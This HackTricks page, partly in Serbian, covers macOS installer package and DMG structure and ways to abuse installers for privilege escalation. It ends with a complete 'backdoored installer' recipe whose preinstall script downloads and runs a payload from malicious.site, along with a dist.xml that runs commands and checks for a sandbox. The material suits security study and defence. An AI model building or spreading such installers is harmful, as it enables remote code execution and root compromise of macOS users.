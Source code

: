 # macOS Installers Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pkg Basic Information

A macOS **installer package** (also known as a `.pkg` file) is a file format used by macOS to **distribute software**. Ove datoteke su poput **kutije koja sadrži sve što je komadu softvera** potrebno da se ispravno instalira i pokrene.

The package file itself is an archive that holds a **hierarchy of files and directories that will be installed on the target** computer. Takođe može uključivati **skripte** za obavljanje zadataka pre i posle instalacije, kao što su postavljanje konfiguracionih datoteka ili čišćenje starih verzija softvera.

### Hierarchy

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Distribution (xml)**: Prilagođavanja (naslov, tekst dobrodošlice…) i provere skripti/instalacije
* **PackageInfo (xml)**: Informacije, zahtevi za instalaciju, lokacija instalacije, putevi do skripti koje treba pokrenuti
* **Bill of materials (bom)**: Lista datoteka za instalaciju, ažuriranje ili uklanjanje sa dozvolama datoteka
* **Payload (CPIO archive gzip compresses)**: Datoteke za instalaciju u `install-location` iz PackageInfo
* **Scripts (CPIO archive gzip compressed)**: Pre i post instalacione skripte i drugi resursi ekstraktovani u privremeni direktorijum za izvršavanje.

### Decompress
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG Osnovne Informacije

DMG datoteke, ili Apple Disk Images, su format datoteka koji koristi Apple-ov macOS za disk slike. DMG datoteka je u suštini **montabilna disk slika** (sadrži sopstveni fajl sistem) koja sadrži sirove blok podatke obično kompresovane i ponekad enkriptovane. Kada otvorite DMG datoteku, macOS **montira kao da je fizički disk**, omogućavajući vam pristup njenom sadržaju.

{% hint style="danger" %}
Napomena da **`.dmg`** instalateri podržavaju **toliko formata** da su u prošlosti neki od njih koji su sadržavali ranjivosti zloupotrebljavani za dobijanje **kernel code execution**.
{% endhint %}

### Hijerarhija

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Hijerarhija DMG datoteke može biti različita u zavisnosti od sadržaja. Međutim, za aplikacione DMG-ove, obično prati ovu strukturu:

* Gornji nivo: Ovo je koren disk slike. Često sadrži aplikaciju i moguće link ka folderu Aplikacije.
* Aplikacija (.app): Ovo je stvarna aplikacija. U macOS-u, aplikacija je obično paket koji sadrži mnoge pojedinačne datoteke i foldere koji čine aplikaciju.
* Link do Aplikacija: Ovo je prečica do foldera Aplikacije u macOS-u. Svrha ovoga je da vam olakša instalaciju aplikacije. Možete prevući .app datoteku na ovu prečicu da instalirate aplikaciju.

## Privesc putem zloupotrebe pkg

### Izvršavanje iz javnih direktorijuma

Ako pre ili post instalacioni skript, na primer, izvršava iz **`/var/tmp/Installerutil`**, napadač bi mogao kontrolisati taj skript kako bi eskalirao privilegije svaki put kada se izvrši. Ili drugi sličan primer:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Ovo je [javna funkcija](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg) koju će nekoliko instalatera i ažuriranja pozvati da **izvrši nešto kao root**. Ova funkcija prihvata **putanju** do **datoteke** koju treba **izvršiti** kao parametar, međutim, ako napadač može **modifikovati** ovu datoteku, biće u mogućnosti da **zloupotrebi** njeno izvršavanje sa root-om da **eskalira privilegije**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
Za više informacija pogledajte ovaj govor: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Izvršenje montiranjem

Ako instalater piše u `/tmp/fixedname/bla/bla`, moguće je **napraviti montiranje** preko `/tmp/fixedname` bez vlasnika, tako da možete **modifikovati bilo koju datoteku tokom instalacije** da biste zloupotrebili proces instalacije.

Primer za to je **CVE-2021-26089** koji je uspeo da **prepiše periodični skript** da bi dobio izvršenje kao root. Za više informacija pogledajte govor: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg kao malware

### Prazan Payload

Moguće je samo generisati **`.pkg`** datoteku sa **pre i post-instalacionim skriptama** bez bilo kakvog pravog payload-a osim malware-a unutar skripti.

### JS u Distribution xml

Moguće je dodati **`<script>`** tagove u **distribution xml** datoteku paketa i taj kod će se izvršiti i može **izvršiti komande** koristeći **`system.run`**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Backdoored Installer

Zlonameran instalater koristi skriptu i JS kod unutar dist.xml
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## References

* [**DEF CON 27 - Unpacking Pkgs A Look Inside Macos Installer Packages And Common Security Flaws**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "The Wild World of macOS Installers" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Unpacking Pkgs A Look Inside MacOS Installer Packages**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
